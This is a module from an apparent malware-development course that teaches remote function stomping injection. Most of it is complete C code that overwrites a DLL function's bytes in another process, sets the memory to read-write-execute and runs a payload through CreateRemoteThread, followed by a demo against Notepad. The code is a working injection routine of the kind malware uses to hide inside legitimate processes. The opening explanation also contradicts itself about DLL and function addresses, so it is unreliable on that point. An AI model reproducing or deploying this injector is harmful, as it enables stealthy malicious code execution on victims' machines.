 45. Remote Function Stomping Injection# [**45. Remote Function Stomping Injection**](https://maldevacademy.com/modules/45)

## **Remote Function Stomping Injection**

### **Introduction**

The previous module introduced function stomping on the local address space of the process. In this module, the same implementation logic will be used to inject code into a remote process.

### **Remote Function Stomping**

The DLLs that implement Windows API functions are shared across all processes that use them, therefore, the functions within the DLL have the same address in each process. However, the address of the DLL itself will differ between processes due to the different virtual address spaces. This means that while the address of the target function remains constant across different processes, the DLL which exports these functions may not be the same.

For example, two processes, A and B, will be sharing `Kernel32.dll` but the address of the DLL may be different within each process due to [Address Space Layout Randomization](https://en.wikipedia.org/wiki/Address_space_layout_randomization). However, `VirtualAlloc`, which is exported from `Kernel32.dll`, will have the same address in both processes.

It is important to note that in order for function stomping to be performed remotely, the DLL that exports the targeted function must already be loaded into the target process. For example, to target the `SetupScanFileQueueA` function in a remote function, which is exported from `Setupapi.dll`, that DLL must already be loaded into the target process. If the remote process does not have `Setupapi.dll` loaded, the `SetupScanFileQueueA` function will not be present in the target process, resulting in an attempt to write to an address that does not exist.

### **Remote Function Stomping Code**

The following code is similar to the local function stomping code, however, it uses different WinAPI functions to carry out code injection.


```
#define		SACRIFICIAL_DLL            "setupapi.dll"#define		SACRIFICIAL_FUNC           "SetupScanFileQueueA"// ...

BOOL WritePayload(HANDLE hProcess, PVOID pAddress, PBYTE pPayload, SIZE_T sPayloadSize) {

	DWORD	dwOldProtection            = NULL;
	SIZE_T	sNumberOfBytesWritten      = NULL;

	if (!VirtualProtectEx(hProcess, pAddress, sPayloadSize, PAGE_READWRITE, &dwOldProtection)) {
		printf("[!] VirtualProtectEx [RW] Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	if (!WriteProcessMemory(hProcess, pAddress, pPayload, sPayloadSize, &sNumberOfBytesWritten) || sPayloadSize != sNumberOfBytesWritten){
		printf("[!] WriteProcessMemory Failed With Error : %d \n", GetLastError());
		printf("[!] Bytes Written : %d of %d \n", sNumberOfBytesWritten, sPayloadSize);
		return FALSE;
	}

	if (!VirtualProtectEx(hProcess, pAddress, sPayloadSize, PAGE_EXECUTE_READWRITE, &dwOldProtection)) {
		printf("[!] VirtualProtectEx [RWX] Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	return TRUE;
}


int wmain(int argc, wchar_t* argv[]) {

	HANDLE		hProcess		= NULL,
		        hThread			= NULL;
	PVOID		pAddress		= NULL;
	DWORD		dwProcessId		= NULL;

	HMODULE		hModule			= NULL;

	if (argc < 2) {
		wprintf(L"[!] Usage : \"%s\" <Process Name> \n", argv[0]);
		return -1;
	}

	wprintf(L"[i] Searching For Process Id Of \"%s\" ... ", argv[1]);
	if (!GetRemoteProcessHandle(argv[1], &dwProcessId, &hProcess)) {
		printf("[!] Process is Not Found \n");
		return -1;
	}
	printf("[+] DONE \n");
	printf("[i] Found Target Process Pid: %d \n", dwProcessId);



	printf("[i] Loading \"%s\"... ", SACRIFICIAL_DLL);
	hModule = LoadLibraryA(SACRIFICIAL_DLL);
	if (hModule == NULL) {
		printf("[!] LoadLibraryA Failed With Error : %d \n", GetLastError());
		return -1;
	}
	printf("[+] DONE \n");


	pAddress = GetProcAddress(hModule, SACRIFICIAL_FUNC);
	if (pAddress == NULL) {
		printf("[!] GetProcAddress Failed With Error : %d \n", GetLastError());
		return -1;
	}
	printf("[+] Address Of \"%s\" : 0x%p \n", SACRIFICIAL_FUNC, pAddress);


	printf("[#] Press <Enter> To Write Payload ... ");
	getchar();
	printf("[i] Writing ... ");
	if (!WritePayload(hProcess, pAddress, Payload, sizeof(Payload))) {
		return -1;
	}
	printf("[+] DONE \n");



	printf("[#] Press <Enter> To Run The Payload ... ");
	getchar();

	hThread = CreateRemoteThread(hProcess, NULL, NULL, pAddress, NULL, NULL, NULL);
	if (hThread != NULL)
		WaitForSingleObject(hThread, INFINITE);

	printf("[#] Press <Enter> To Quit ... ");
	getchar();

	return 0;
}



```
### **Demo**

Targeting `Notepad.exe` process.




[![](45%20Remote%20Function%20Stomping%20Injection%20d7942e1bc9af45968f6b7eea69b6559e/remote-stomp-109445015-30dbf6a1-2ece-4d4c-a304-a9fc12f8f231.png)](45%20Remote%20Function%20Stomping%20Injection%20d7942e1bc9af45968f6b7eea69b6559e/remote-stomp-109445015-30dbf6a1-2ece-4d4c-a304-a9fc12f8f231.png)Retrieving `SetupScanFileQueueA`'s address.

[![](45%20Remote%20Function%20Stomping%20Injection%20d7942e1bc9af45968f6b7eea69b6559e/remote-stomp-209445031-a0b9b825-93f8-429c-a6eb-5dc4e276e2df.png)](45%20Remote%20Function%20Stomping%20Injection%20d7942e1bc9af45968f6b7eea69b6559e/remote-stomp-209445031-a0b9b825-93f8-429c-a6eb-5dc4e276e2df.png)The original bytes of the `SetupScanFileQueueA` function.

[![](45%20Remote%20Function%20Stomping%20Injection%20d7942e1bc9af45968f6b7eea69b6559e/remote-stomp-309445021-d9ccc1af-1eb5-4e9e-ba62-8f67b3442c90.png)](45%20Remote%20Function%20Stomping%20Injection%20d7942e1bc9af45968f6b7eea69b6559e/remote-stomp-309445021-d9ccc1af-1eb5-4e9e-ba62-8f67b3442c90.png)Replacing the function's bytes with the Msfvenom calc payload.

[![](45%20Remote%20Function%20Stomping%20Injection%20d7942e1bc9af45968f6b7eea69b6559e/remote-stomp-409445036-d03ad29c-8eb0-4b5a-b166-bd30458dbe1a.png)](45%20Remote%20Function%20Stomping%20Injection%20d7942e1bc9af45968f6b7eea69b6559e/remote-stomp-409445036-d03ad29c-8eb0-4b5a-b166-bd30458dbe1a.png)Running the payload.

[![](45%20Remote%20Function%20Stomping%20Injection%20d7942e1bc9af45968f6b7eea69b6559e/remote-stomp-509445038-6bb55397-dbac-4546-b1d7-2a7be0744c8a.png)](45%20Remote%20Function%20Stomping%20Injection%20d7942e1bc9af45968f6b7eea69b6559e/remote-stomp-509445038-6bb55397-dbac-4546-b1d7-2a7be0744c8a.png)